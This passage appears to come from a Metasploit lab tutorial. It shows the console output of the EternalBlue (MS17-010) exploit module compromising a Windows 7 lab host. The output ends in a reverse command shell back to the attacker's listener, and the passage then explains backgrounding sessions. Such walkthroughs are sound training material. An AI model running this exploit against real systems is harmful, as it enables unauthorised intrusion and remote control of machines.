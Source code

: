 `[+] 10.10.12.229:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)`

`[*] 10.10.12.229:445 - Scanned 1 of 1 hosts (100% complete)`

`[*] 10.10.12.229:445 - Connecting to target for exploitation.`

`[+] 10.10.12.229:445 - Connection established for exploitation.`

`[+] 10.10.12.229:445 - Target OS selected valid for OS indicated by SMB reply`

`[*] 10.10.12.229:445 - CORE raw buffer dump (42 bytes)`

`[*] 10.10.12.229:445 - 0x00000000 57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73 Windows 7 Profes`

`[*] 10.10.12.229:445 - 0x00000010 73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76 sional 7601 Serv`

`[*] 10.10.12.229:445 - 0x00000020 69 63 65 20 50 61 63 6b 20 31 ice Pack 1`

`[+] 10.10.12.229:445 - Target arch selected valid for arch indicated by DCE/RPC reply`

`[*] 10.10.12.229:445 - Trying exploit with 12 Groom Allocations.`

`[*] 10.10.12.229:445 - Sending all but last fragment of exploit packet`

`[*] 10.10.12.229:445 - Starting non-paged pool grooming`

`[+] 10.10.12.229:445 - Sending SMBv2 buffers`

`[+] 10.10.12.229:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.`

`[*] 10.10.12.229:445 - Sending final SMBv2 buffers.`

`[*] 10.10.12.229:445 - Sending last fragment of exploit packet!`

`[*] 10.10.12.229:445 - Receiving response from exploit packet`

`[+] 10.10.12.229:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!`

`[*] 10.10.12.229:445 - Sending egg to corrupted connection.`

`[*] 10.10.12.229:445 - Triggering free of corrupted buffer.`

`[*] Command shell session 1 opened (10.10.186.44:4444 -> 10.10.12.229:49366) at 2021-08-20 04:51:19 +0100`

`C:\Windows\system32>`

Once a session is opened, you can background it using `CTRL+Z` or abort it using `CTRL+C`. Backgrounding a session will be useful when working on more than one target simultaneously or on the same target with a different exploit and/or shell.

Backgrounding the session

`C:\Windows\system32>^Z`

`Background session 1? [y/N] y`

`msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions`

`Active sessions`
